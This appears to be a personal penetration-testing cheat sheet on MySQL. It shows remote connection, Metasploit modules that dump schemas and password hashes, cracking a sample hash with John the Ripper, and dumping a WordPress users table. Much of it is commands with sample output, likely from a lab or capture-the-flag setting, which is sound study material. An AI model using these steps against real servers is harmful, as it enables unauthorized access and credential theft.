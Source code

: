 # MySQL	
***RDBMS*** : Relational DataBase Management System  
***SGBD*** :  Système de Gestion de Base de Données  

##### Connect to MYSQL remote server
```bash
mysql -u [username] -p -h [host ip]
```
**View a .sql file (from mysql service) /!\   
It requires to be in the same directory as the .sql file**
```bash
source file.sql
```

## SQL CHEATSHEET :
```mysql
SHOW DATABASES;
USE db_name;
SHOW TABLES;
DESCRIBE table_name;
```


## MetaSploit Example
For this example, credentials should be correct.  
### Credential testing
```bash
mysql -h [IP] -u [username] -p
```

### Vulnerability exploitation :
(In this example, the MySQL version is vulnerable)  

```bash
msfconsole
```
***Start exploitation***
```bash
search mysql_sql
use 0
set password/rhosts/username
run
result -> 5.7.29-0ubuntu0.18.04.1
```
It returns DB names


```bash
search mysql_schemadump
use 0
set options
...
run
```

It returns all tables, their columns name and type

```bash
search mysql_hashdump
use 1
set options
run
```
It returns all usernames and passwords hashes

### Crash hashes
If you don't know what to do, please check [John-The-Ripper.md](./John-The-Ripper.md) and [hashcat.md](./hashcat.md)

Hash example : ```carl:*EA031893AA21444B170FC2162A56978B8CEECE18```
```bash
john hash.txt
```

***Les mots de passe sont très souvent réutilisés***


## Injection and Dump:
Using MySQL Service

***Show all db names***
```sql
SELECT DISTINCT table_schema FROM INFORMATION_SCHEMA.tables;
```


| table_schema       |
| :----------------- |
| information_schema |
| sys                |
| wp1b_itconnect     |
| performance_schema |
| mysql              |

In this exemple, only wp1b_itconnect is a user-made DB.  
Others are defaults  
*** Show all tables from a database***  
```sql
SELECT DISTINCT TABLE_NAME FROM INFORMATION_SCHEMA.tables WHERE table_Schema LIKE 'wp%';
```

| TABLE_NAME               |
| :----------------------- |
| wp_term_taxonomy         |
| wp_usermeta              |
| wp_terms                 |
| web14_terms              |
| web14_termmeta           |
| wp_term_relationships    |
| web14_posts              |
| web14_links              |
| web14_postmeta           |
| web14_usermeta           |
| wp_postmeta              |
| wp_comments              |
| web14_users              |
| wp_termmeta              |
| wp_options               |
| web14_term_relationships |
| wp_users                 |
| wp_posts                 |
| wp_links                 |
| web14_comments           |
| web14_term_taxonomy      |
| web14_options            |
| web14_commentmeta        |
| wp_commentmeta           |

This output come from a WordPress DB.    
By default, user informations are stored in wp_users  

**Show all columns names from a table***
```sql
SELECT DISTINCT COLUMN_NAME FROM INFORMATION_SCHEMA.columns WHERE table_Schema LIKE 'wp%' AND TABLE_NAME LIKE 'wp_users';
```

| COLUMN_NAME         |
|:------------------- |
| ID                  |
| user_login          |
| user_pass           |
| user_nicename       |
| user_email          |
| user_url            |
| user_registered     |
| user_activation_key |
| user_status         |
| display_name        |

This is a default WordPress DB example.


***DUMP Database***  
Change current DB
```sql
USE wp1b_itconnect;
```
DUMP data
```sql
SELECT * FROM wp_users;
```